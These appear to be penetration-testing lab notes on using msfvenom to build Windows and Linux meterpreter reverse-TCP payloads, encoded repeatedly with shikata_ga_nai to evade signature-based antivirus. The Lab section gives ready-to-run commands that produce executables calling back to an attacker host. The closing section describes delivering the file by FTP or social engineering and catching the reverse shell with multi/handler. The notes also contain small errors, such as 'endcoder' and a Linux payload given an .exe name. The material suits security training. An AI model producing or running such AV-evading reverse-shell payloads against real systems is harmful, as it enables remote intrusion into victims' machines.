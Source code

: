 #### Encoding Payloads with Msfvenom
- Given that this attack vector involves the transfer and storage of a malicious payload on the clients systems attackers need to be cognisant of AV detection.
- Most end user AV(anti virus ) solutions utilize signature based detection in order to identify malicious files  or executables.
- We can evade older signature based AV (anti virus) solutions by encoding our payloads.
- Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.
#### shellcode
- shellcode is a piece of code typically used as a payload for exploitation
- It's get its name from the term command shell,whereby shellcode is a piece of code that provides an  attacker with a remote command shell on the target system.
#### Lab
- msfvenom --list endcoder [this will list all the available ]
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -f exe > encoded_payload.exe [ this will create encoded payloads for windows ]
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > encoded_payload.exe [ i flag is used to iterate the encoding process several times,here it's only 10 ]
- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > encoded_linux.exe [ encoded payloads for linux with 10 iteration of encoding ]

#### Getting reverse shell
- it's need to transfer the file (ftp server,social engineering )
- we need to use multi/handler for reverse meterpreter shell 
- in multihandler we need to set everything same as creating multihandler
